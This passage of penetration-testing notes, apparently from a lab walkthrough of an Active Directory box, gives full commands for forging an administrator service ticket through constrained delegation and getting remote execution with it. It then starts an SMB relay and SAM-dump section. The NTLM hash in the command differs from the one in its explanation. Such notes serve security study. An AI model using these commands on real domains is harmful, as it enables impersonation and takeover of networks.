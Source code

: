 - **Get Service Ticket for Administrator or any other user**
    - `impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :cb5fedffc634c46f85b73f1e63e9df28 -impersonate administrator intelligence.htb/svc_int`
        - Options
            - `dc-ip 10.10.10.248`
			- `-spn www/dc.intelligence.htb` - the SPN. To get the SPN, that’s in the Node Info -> Node Properties section for the svc_int  user in Bloodhound, check Allowed to delegate
			- `-hashes :5e47bac787e5e1970cf9acdb5b316239` - the NTLM I collected earlier
			- `-impersonate administrator` - the user I want a ticket for
			- `intelligence.htb/svc_int` - the account I’m running
![Screenshot of Service Ticket](./images/serviceTicket.png)
	- Ticket is saved in `administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache`
	- `Kali> KRB5CCNAME=administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb`
        - I’ll set the `KRB5CCNAME` environment variable to point to the ticket file I want to use.
- **SMB Relay Attack** → NTLMRelayx with LLMNR/NBT-NS Responder
	- Reference - [Link 1](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/), [Link 2](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-capture/)
	- NTLMRelayX - For every connection received, this module will try to relay that connection to specified target(s) system or the original client.
    - Technique 1
	    - Requirement - Local Administrator on Target Server (need to have access to SAM)
        - Objective - Dump SAM Database
        - Steps -
	        - Server
	            - Edit `/etc/responder/Responder.conf` → Change value of `SMB` and `HTTP` to Off